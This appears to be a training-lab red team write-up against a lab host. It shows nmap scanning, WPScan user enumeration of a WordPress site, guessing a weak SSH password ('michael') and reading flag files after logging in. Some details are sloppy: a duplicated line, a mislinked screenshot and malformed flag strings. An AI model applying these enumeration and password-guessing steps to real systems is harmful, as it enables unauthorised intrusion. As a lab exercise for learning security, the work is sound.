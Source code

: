 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

Output Screenshot:

![Nmap scan results](https://github.com/Kreyeptic/Final-Project/blob/main/Images/Nmap%20scan.png "Nmap scan results")

This scan identifies the services below as potential points of entry:
- Target 1
 1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
1. User Enumeration (WordPress site)
2. Weak User Password
3. Misconfiguration of User Privileges/Privilege Escalation

### Exploitation
The Red Team was able to penetrate Michael and retrieve the following confidential data:

**Target Michael**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`

![WPScan results](https://github.com/Kreyeptic/Final-Project/blob/main/Images/Nmap%20scan.png "WPScan results")

- Targeting user Michael
    - Small manual Brute Force attack to guess/finds Michael’s password
    - User password was weak and obvious
    - Password: michael
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`

![Flag 1 location](https://github.com/Kreyeptic/Final-Project/blob/main/Images/Flag1.png "Flag 1")

  - **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.
    - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
        - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`

![Flag 2 location](https://github.com/Kreyeptic/Final-Project/blob/main/Images/Flag2.png "Flag 2 location")
